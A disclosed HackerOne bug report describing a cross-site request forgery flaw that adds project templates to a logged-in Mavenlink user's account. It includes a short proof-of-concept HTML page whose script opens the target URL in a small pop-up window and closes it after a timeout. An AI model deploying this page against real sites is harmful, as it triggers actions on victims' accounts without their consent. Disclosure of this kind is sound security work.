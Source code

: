 # CSRF Add user templates

## Report Details
- **Report ID**: 301919
- **URL**: https://hackerone.com/reports/301919
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-01-03T09:04:03.740Z
- **Disclosed**: 2019-02-27T23:39:23.847Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mavenlink

## Vulnerability Information
Reproduction:
==========

- Log in to account
- Visit CSRF page below (note default 30 seconds timeout, can be adjusted according to the connection speed): 

```
<!doctype html>
<html>
<head>
</head> 
<body>
<script>
var a = window.open("https://app.mavenlink.com/project_templates#new", "csrf", "height=100,width=100"); 
var intervalID = setTimeout(function () { a.close();}, 30000); 
</script>
</body>
</html>
```

## Impact

CSRF Add user templates

## Attachments
No attachments
